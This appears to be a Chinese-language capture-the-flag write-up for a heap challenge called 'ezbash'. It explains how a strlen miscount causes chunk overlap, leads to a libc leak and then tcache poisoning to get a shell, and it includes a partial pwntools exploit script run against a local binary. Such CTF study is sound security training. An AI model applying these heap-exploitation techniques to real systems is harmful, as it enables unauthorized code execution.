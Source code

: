 ![](https://md.buptmerak.cn/uploads/upload_76ba0c803969e212693ce656263bb2c6.png)



### 思路

根据上述，构造内容拼接到下一个chunk的size，使`strlen`测出的长度大于实际长度两个字节，控制源文件内容长度与目标文件的实际长度+2相同，并布置源文件内容的最后两个字节为想要的size，从而利用堆溢出造成chunk overlap

改成一个很大的数字，进而释放掉，泄露libc基址

在这之后利用读入command时使用`realloc`动态分配内容，输入较多内容从而直接拿回unsorted bin，并事先在其中包含一块tcache，最后打tcache即可getshell。需要注意的是这一块tcache原本属于节点之一，所以顺手把其中的指针都清零避免后续在遍历节点时出现意料之外的crash。


### exp

```python
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
r = process('./ezbash')
libc = ELF('./libc.so.6')

sla = lambda x : r.sendlineafter('hacker:/$ ', x)

p = "touch "+"AAA"
sla(p)
p = "touch "+"BBB"
sla(p)
p = "touch "+"CCC"
sla(p)

p = 'echo '+'A'*0xf8+" -> "+'AAA'
sla(p)
p = 'cp AAA BBB'
sla(p)

p = 'echo '+'A'*0xf8
p = p.encode('ISO-8859-1')
p+= p16(0x431)
p = p.decode('ISO-8859-1')
p+= ' -> '+'CCC'
sla(p)

for i in range(10):
	p = "touch "+"pad"+str(i)
	sla(p)

p = 'cp CCC BBB'
sla(p)

p = 'rm CCC'
sla(p)

p = 'echo '.encode('ISO-8859-1')
p+= p8(0xd0)
p = p.decode('ISO-8859-1')
p+= ' -> '
p+= 'BBB'
sla(p)

p = 'cp BBB pad9'
sla(p)

p = 'cat pad9'
sla(p)
```